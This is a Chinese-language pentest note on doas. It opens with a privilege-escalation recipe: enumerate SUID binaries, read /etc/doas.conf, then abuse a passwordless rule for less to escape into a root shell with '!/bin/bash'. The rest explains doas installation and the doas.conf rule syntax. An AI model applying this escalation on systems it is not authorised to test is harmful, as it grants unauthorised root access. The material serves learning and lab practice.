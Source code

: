 doas可用于BSD系Linux发行版，提权思路类似于 `sudo -l` 中寻找可利用的文件

```bash
find / -perm -u=s -type f 2>/dev/null # /usr/bin/doas
cat /etc/doas.conf # config file
```

```bash
permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
```

```bash
/usr/bin/less /var/log/authlog # enter less
press v # enter vim mode
:!/bin/bash
```

## doas

doas 是一个用于在 Linux 系统中以其他用户身份执行命令的工具。它的设计目标是提供一个比 sudo 更简单、更小巧的替代品。
以下是 doas 的一些基本使用方法：

- 安装：你可以通过你的包管理器来安装 doas。例如，在 Debian 系统中，你可以使用 apt-get install doas 命令来安装。
- 配置：doas 的配置文件是 /etc/doas.conf。在这个文件中，你可以添加一些规则来控制哪些用户可以使用 doas 来执行哪些命令。例如，你可以添加一条规则来允许 wheel 组中的所有用户以任何用户的身份执行任何命令：permit :wheel。
- 使用：你可以通过在命令前面添加 doas 来使用 doas 执行命令。例如，你可以使用 doas cmd 来以其他用户的身份执行 cmd 命令。

## doas.conf

doas 命令用于根据 /etc/doas.conf 配置文件中的规则以其他用户的身份执行命令。 /etc/doas.conf 文件中的规则有以下格式：

```bash
permit | deny [options] identity [as target] [cmd command [args...]]
```

其中：

- permit | deny：这是规则的类型，表示是否允许（permit）或拒绝（deny）执行某个操作。
- options：这是一些可选的设置，例如 nopass（无需密码）和 persist（持久化）。
- identity：这是要执行命令的用户的身份。
- as target：这是可选的，表示以哪个用户的身份执行命令。
- cmd command [args...]：这是要执行的命令和参数。

例如，可以创建一个规则，允许 wheel 组中的所有用户以 root 用户的身份执行任何命令：

```bash
permit :wheel
```

表示允许属于"wheel"组的用户使用doas命令。通常情况下，OpenBSD系统中的管理员用户会被分配到"wheel"组，所以这个配置项允许这些管理员用户使用doas来执行特权操作。

例如，也可以创建一个规则，允许特定用户无需密码就可以执行特定命令：

```bash
permit nopass larry cmd /sbin/reboot
```

在这个例子中，用户 larry 可以无需密码就可以执行 /sbin/reboot 命令。
